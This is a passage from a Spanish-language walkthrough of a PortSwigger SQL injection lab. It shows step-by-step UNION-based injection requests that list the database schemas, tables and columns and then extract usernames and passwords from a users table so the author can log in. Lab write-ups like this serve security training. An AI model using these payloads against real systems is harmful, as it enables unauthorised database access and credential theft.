 * **Explotación**

Enumero las bases de datos

```null
GET /filter?category=Gifts'+union+select+NULL,schema_name+from+information_schema.schemata--+- HTTP/2
```

Las tablas para ```public```

```null
GET /filter?category=Gifts'+union+select+NULL,table_name+from+information_schema.tables+where+table_schema%3d'public'--+- HTTP/2
```

Y las columnas de ```users_uixwzd```

```null
GET /filter?category=Gifts'+union+select+NULL,column_name+from+information_schema.columns+where+table_schema%3d'public'+and+table_name='users_uixwzd'--+- HTTP/2
```

Me quedo con usuario y contraseña. En este caso, los nombres son algo extraños, ```username_zkdsyz```, ```password_ihdhjk```

```null
GET /filter?category=Gifts'+union+select+NULL,username_zkdsyz||':'||password_ihdhjk+from+public.users_uixwzd--+- HTTP/2
```

Inicio sesión y termino el laboratorio

<img src="/img/articulos/sqli-portswigger/38.png" alt="">

## LAB10

* **Instrucciones**

<img src="/img/articulos/sqli-portswigger/39.png" alt="">
